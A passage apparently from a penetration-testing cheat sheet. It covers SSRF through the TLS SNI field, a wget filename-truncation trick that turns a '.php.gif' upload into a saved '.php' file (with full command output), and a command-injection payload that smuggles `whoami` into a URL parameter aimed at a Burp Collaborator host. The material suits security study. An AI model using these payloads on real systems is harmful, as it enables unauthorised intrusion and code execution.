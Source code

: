 With this insecure configuration, we can exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field. For example, the following command would force Nginx to connect to internal.host.com
```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlf

```
* **wget File Upload**

```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080

```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s      

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]


```

Note that another option you may be thinking of to bypass this check is to make the HTTP server redirect to a different file, so the initial URL will bypass the check by then wget will download the redirected file with the new name. This won't work unless wget is being used with the parameter --trust-server-names because wget will download the redirected page with the name of the file indicated in the original URL.

* **Command Injection**

It might be worth trying a payload like:

```html
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`

```
